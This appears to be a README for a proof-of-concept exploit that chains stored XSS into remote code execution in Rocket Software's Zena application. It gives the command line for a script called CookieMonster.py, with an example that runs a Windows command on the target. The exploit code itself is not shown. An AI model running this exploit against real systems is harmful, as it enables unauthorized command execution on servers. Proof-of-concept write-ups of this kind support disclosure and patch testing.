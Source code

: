 # Zena Stored XSS to RCE Exploit POC

**Exploit POC for Rocket Softeware's Zena application- Stored XSS to RCE**

**To Run:**
- python CookieMonster.py <hostname/ip> <TLS/SSL - True or False> <cmd.exe command>
  - **Example: python3 CookieMonster.py 127.0.0.1 False "/c whoami > c:/out.txt"**

